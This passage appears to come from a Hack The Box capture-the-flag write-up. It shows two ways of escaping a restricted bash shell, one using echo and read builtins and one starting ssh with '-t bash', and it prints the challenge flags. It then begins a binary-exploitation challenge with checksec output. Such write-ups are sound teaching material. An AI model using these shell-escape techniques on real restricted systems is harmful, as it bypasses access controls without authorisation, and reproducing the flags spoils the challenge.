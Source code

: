 Upon entry, we can check a few commands and see extremely limited options. We are unable to do traditional navigation commands such as `ls` or `cd`. However, we do have access to other powerful bash builtins such as `echo` and `read`. We can use `echo` to browse directories in a similar manner to `ls`:
```bash
restricted@ng-restricted-rtgbl-c6f644c76-t5z7n:~$ echo .*
. .. .bash_history .bash_logout .bash_profile .bashrc .bin .profile
```

In our current directory, there is nothing that looks like a flag. Checking elsewhere:
```bsh
restricted@ng-restricted-rtgbl-c6f644c76-t5z7n:~$ echo /*
/bin /boot /dev /etc /flag_8dpsy /home /lib /lib64 /media /memories.dump /mnt /opt /proc /root /run /sbin /srv /sys /tmp /usr /var
```

`flag_8dpsy` looks like a potential candidate. To view, we can leverage `echo` and `read` together:

```bash
restricted@ng-restricted-rtgbl-c6f644c76-t5z7n:~$ read IFR < /flag_8dpsy; echo $IFR
HTB{r35tr1ct10n5_4r3_p0w3r1355}
```

---
Alternative Method, selecting `bash` as ssh terminal.

User restricted has its default terminal set to rbash, the restricted terminal we previously worked in. However, we can just as easily pick our own terminal agent at ssh launch:

```bash
$ ssh restricted@167.99.86.8 -p 32608 -t bash
restricted@ng-restricted-rtgbl-c6f644c76-t5z7n:~$ whoami
restricted
restricted@ng-restricted-rtgbl-c6f644c76-t5z7n:~$ cat /flag_8dpsy 
HTB{r35tr1ct10n5_4r3_p0w3r1355}
```
`HTB{r35tr1ct10n5_4r3_p0w3r1355}`

## Pwn
### Labyrinth
>You find yourself trapped in a mysterious labyrinth, with only one chance to escape. Choose the correct door wisely, for the wrong choice could have deadly consequences.
__Difficulty: easy__
---
We are given a labyrinth executable:
```
$ file labyrinth    
labyrinth: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=86c87230616a87809e53b766b99987df9bf89ad8, for GNU/Linux 3.2.0, not stripped

$ checksec --file=labyrinth
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified   Fortifiable     FILE
Full RELRO      No canary found   NX enabled    No PIE          No RPATH   RW-RUNPATH   83 Symbols        No    0  4labyrinth
```
